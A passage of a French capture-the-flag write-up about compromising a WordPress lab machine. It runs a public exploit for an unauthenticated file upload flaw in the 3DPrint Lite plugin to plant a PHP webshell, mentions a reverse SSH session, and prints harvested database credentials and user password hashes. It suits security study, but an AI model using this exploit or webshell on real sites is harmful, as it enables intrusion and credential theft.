 Le *3dprint-lite* correspond au dossier *3dp* que l'on a vu plus tôt. Ce plugin est aussi vulnérable [à une faille d'upload arbitraire](https://www.exploit-db.com/exploits/50321) sans authentification préalable !  

L'exploit nous obtient un webshell les doigts dans ta sœur :  

```plain
$ python3 3dprint.py http://nerdpress myshell.php 
3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload 
Author -> spacehen (www.github.com/spacehen) 
Uploading Shell... 
Shell Uploaded! 
http://nerdpress/wp-content/uploads/p3d/myshell.php
```

Wozilla
-------

Une fois un ReverseSSH établit je commence par récupérer les identifiants dans la fichier de configuration du Wordpress :  

```plain
/** The name of the database for WordPress */ 
define( 'DB_NAME', 'wordpress' ); 

/** MySQL database username */ 
define( 'DB_USER', 'webuser' ); 

/** MySQL database password */ 
define( 'DB_PASSWORD', 'GT66pR7816' ); 

/** MySQL hostname */ 
define( 'DB_HOST', 'localhost' ); 

/** Database charset to use in creating database tables. */ 
define( 'DB_CHARSET', 'utf8mb4' );
```

Il y a différents utilisateurs sur le wordpress :  

```plain
mysql> select * from wp_users;  
+----+------------+------------------------------------+---------------+----------------------+------------------+---------------------+---------------------+-------------+---------------+ 
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url         | user_registered     | user_activation_key | user_status | display_name  | 
+----+------------+------------------------------------+---------------+----------------------+------------------+---------------------+---------------------+-------------+---------------+ 
|  1 | admin      | $P$BV7kJ2OkZLffVaX4TGeEyDRmS6xTuL/ | admin         | admin@example.com    | http://nerdpress | 2022-01-20 19:50:34 |                     |           0 | admin         | 
|  2 | bgates     | $P$Bmj3.4ODmeffIV6hu/qhHTjI5tZ8Em/ | bgates        | bgates@example.com   |                  | 2022-01-20 20:52:37 |                     |           0 | Bill Gates    | 
|  3 | sjobs      | $P$BnovC0hZWOV/GmkDYvcJjsKTa0zDZW1 | sjobs         | sjobs@example.com    |                  | 2022-01-20 20:53:39 |                     |           0 | Steve Jobs    | 
|  4 | swozniak   | $P$Bx9aLfMHwSzWdZm0fwSNQyB8cEr7Uc/ | swozniak      | swozniak@example.com |                  | 2022-01-20 20:54:24 |                     |           0 | Steve Wozniak | 
|  5 | pallen     | $P$Bb9ECl53eqtuyJURHJ/8KrzIYVukpN0 | pallen        | pallen@example.com   |                  | 2022-01-20 20:55:06 |                     |           0 | Paul Allen    | 
+----+------------+------------------------------------+---------------+----------------------+------------------+---------------------+---------------------+-------------+---------------+ 
5 rows in set (0.00 sec)
```
